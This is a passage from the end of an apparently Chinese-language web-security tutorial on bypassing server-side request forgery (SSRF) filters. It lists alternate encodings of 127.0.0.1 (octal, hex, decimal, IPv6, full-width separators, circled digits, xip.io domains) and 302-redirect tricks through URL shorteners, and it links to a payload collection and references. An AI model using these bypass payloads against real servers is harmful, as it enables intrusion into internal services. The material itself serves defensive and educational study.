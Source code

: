 * 可以采用指向任意域名的xip.io来绕过

  例如： 127.0.0.1.xip.io可以解析为127.0.0.1

* 利用进制转换绕过,127.0.0.1八进制：0177.0.0.1。十六进制：0x7f.0.0.1。十进制：2130706433

  

其他各种指向127.0.0.1的地址

```
http://localhost/         # localhost就是代指127.0.0.1
http://0/                 # 0在window下代表0.0.0.0，而在liunx下代表127.0.0.1
http://0.0.0.0/       # 0.0.0.0这个IP地址表示整个网络，可以代表本机 ipv4 的所有地址
http://[0:0:0:0:0:ffff:127.0.0.1]/    # 在liunx下可用，window测试了下不行
http://[::]:80/           # 在liunx下可用，window测试了下不行
http://127。0。0。1/       # 用中文句号绕过
http://①②⑦.⓪.⓪.①
http://127.1/
http://127.00000.00000.001/ # 0的数量多一点少一点都没影响，最后还是会指向127.0.0.1
```



#### 限制请求协议为http

这个可以采用302跳转，百度短地址，或者使用https://tinyurl.com生成302跳转地址

  

最后贴一个github项目[Server-Side Request Forgery](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery), 里面有各种bypass的payload







### REFERENCE

* https://www.cnblogs.com/zzjdbk/p/12970519.html
* https://www.cnblogs.com/linuxsec/articles/12684293.html
* https://cloud.tencent.com/developer/article/1610645
* https://se8s0n.github.io/2019/05/19/SSRF-LABS%E6%8C%87%E5%8D%97/
* https://www.136.la/jingpin/show-172851.html
* https://www.yuque.com/pmiaowu/web_security_1/cs5l14#i3wZS
* https://joychou.org/web/phpssrf.html

